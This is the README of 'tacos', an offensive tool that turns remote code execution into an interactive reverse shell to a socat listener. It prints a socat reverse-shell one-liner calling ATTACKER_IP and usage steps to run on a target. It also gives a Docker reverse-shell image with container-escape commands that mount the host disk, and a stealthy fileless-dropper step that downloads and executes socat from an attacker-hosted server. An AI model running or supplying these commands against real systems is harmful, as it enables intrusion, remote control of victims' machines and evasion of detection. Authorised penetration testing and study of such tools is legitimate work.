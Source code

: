 # tacos 🌮 
<sup>(reverse `socat`)</sup>

<div align=center>
<img src=https://github.com/ariary/tacos/blob/main/logo.png width=250>

Spawn a pty in your reverse shell to <strong>automaticaly</strong> make it <strong>interactive</strong> for socat listener.

<strong> Fast interactive reverse shell set-up [ 🐳 (container) ](#with-docker-recommended)</strong>

<sup><code><b> All credit goes to <a href=https://github.com/laluka/pty4all>laluka</a> idea </b></code></sup>
</div>



Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP:PORT],verify=0
```

**Why ?**
* transform RCE to interactive reverse shell with almost no prerequisite (only `curl`)
* cross-platform *(windows support is OK but not yet interactive. It is recommended to use non-docker solution for it)*
* tired of hitting ^C and loosing your shell?
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate


## Usage

`tacos` is built to work with the simple and dramatically effective project [`pty4all`](https://github.com/laluka/pty4all):
```shell
# On attacker machine
tmux
./light-pty4all/socat-listener.sh --lhost [ATTACKER_IP] --lport [ATTACKER_PORT] #multi-handler

# On target (transfer tacos as you wish)
./tacos [ATTACKER_IP]:[ATTACKER_PORT]       # or .\tacos.exe [ATTACKER_IP]:[ATTACKER_PORT] for windows
# 💥
```


### With docker (recommended)

Source aliases *(for simplicity)*:
```shell
alias tacos.container='docker run --net host --rm -it ariary/tacos'
```

Launch multi-handler listener:
```shell
tacos.container [LISTENING_ADDR] [LISTENING_PORT] # [OPTIONAL_TACOS_ARS]
```

***Notes about `tacos` container security:***
> From a networking point of view, this is the same level of isolation as if the processes were running directly on the host and not in a container. However, in all other ways, such as storage, process namespace, and user namespace, the process is isolated from the host.

<details>
<summary><h4>🎁 Bonus: <code>tacos</code> reverse shell image</h4></summary>
Useful if target is running docker, kubernetes, etc ...
<br> On attacker machine, launch your <code>tacos</code> listener as usual
<br> On target:
<pre><code>
docker run --privileged --rm -it ariary/tacos-reverse [TACOS_LISTENER_IP]:[TACOS_LISTENER_PORT]
</code></pre>
<blockquote>💡: <code>--privileged</code> mode is not mandatory. It is used to allow container escaping with:
<pre><code>
fdisk -l
mkdir /mnt/hostfs
mount /dev/sda1 /mnt/hostfs
</code></pre>
</blockquote>
<br>
<blockquote>💡: If you only have writing access to a manifest deploying containers. Use <code>ariary/tacos-reverse</code> image with appropriate arguments
</blockquote>
</details>

## Install

### Docker
```shell
docker pull ariary/tacos
```

### Release
```shell
curl -lO -L -s https://github.com/ariary/tacos/releases/latest/download/tacos && chmod +x tacos
```

### From git
need `go`:
```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make before.build
make build.tacos          # or make build.tacos.windows
```

## Alternative

Alternatively, if target does not have `socat`:
**Host** a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and **download + execute it** using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
get-static socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_IP]:8080/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:443,verify=0
```

